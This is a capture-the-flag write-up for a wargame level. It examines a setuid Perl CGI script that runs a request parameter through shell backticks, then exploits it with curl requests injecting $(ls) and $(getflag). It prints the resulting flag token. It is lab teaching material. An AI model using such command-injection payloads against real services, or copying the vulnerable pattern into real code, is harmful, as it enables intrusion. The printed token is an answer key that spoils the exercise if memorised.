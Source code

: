 ## Exploring the exercice

```bash 
$ ls -la
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
-r-x------  1 level04 level04  675 Apr  3  2012 .profile
```

```bash 
$ file level04.pl 
level04.pl: setuid setgid a /usr/bin/perl script, ASCII text executable
```

So we have a perl script 

## Reading doc about Perl

Langage initially used for text processing.

## Testing

```bash 
$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

The program is a CGI script in Perl (served by a web server on port 4747) that retrieves a parameter x from an HTTP request, executes a shell command with this value, and returns the result or any errors as HTML content.

```bash 
$ curl -I http://localhost:4747
HTTP/1.1 200 OK
Date: Thu, 15 May 2025 08:29:20 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html

```

```bash 
$ curl  http://localhost:4747?x=salut
salut
```

## Finding the vulnerability

We know that we pass an argument to a function without checking it, let's try to pass a shell command.


```bash 
$ curl 'http://localhost:4747?x=$(ls)'
level04.pl

```

It works ! Let's try with getflag then :

```bash 
$ curl 'http://localhost:4747?x=$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```







